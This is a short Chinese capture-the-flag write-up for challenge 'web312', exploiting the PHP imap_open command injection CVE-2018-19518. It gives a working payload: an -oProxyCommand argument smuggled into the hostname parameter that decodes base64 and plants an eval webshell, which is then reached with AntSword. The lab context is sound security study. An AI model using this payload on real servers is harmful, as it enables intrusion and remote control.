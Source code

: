 # CVE-2018-19518
web312
![](vx_images/448425916594221.png)
php版本5.6.38
```
php imap扩展用于在PHP中执行邮件收发操作。其imap_open函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。%0D%0A因为ssh命令中可以通过设置-oProxyCommand=来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。
```

```
echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+" | base64 -d >/var/www/html/shell.php
->
ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE96OCsiIHwgYmFzZTY0IC1kID4vdmFyL3d3dy9odG1sL3NoZWxsLnBocA==

```
抓包将hostname参数改为

```
x+-oProxyCommand%3decho%09ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE96OCsiIHwgYmFzZTY0IC1kID4vdmFyL3d3dy9odG1sL3NoZWxsLnBocA%3d%3d|base64%09-d|sh}#注意将=url编码,最后的}不能去掉
```
![](vx_images/48402303062343.png)
蚁剑连接shell.php
![](vx_images/86663466061222.png)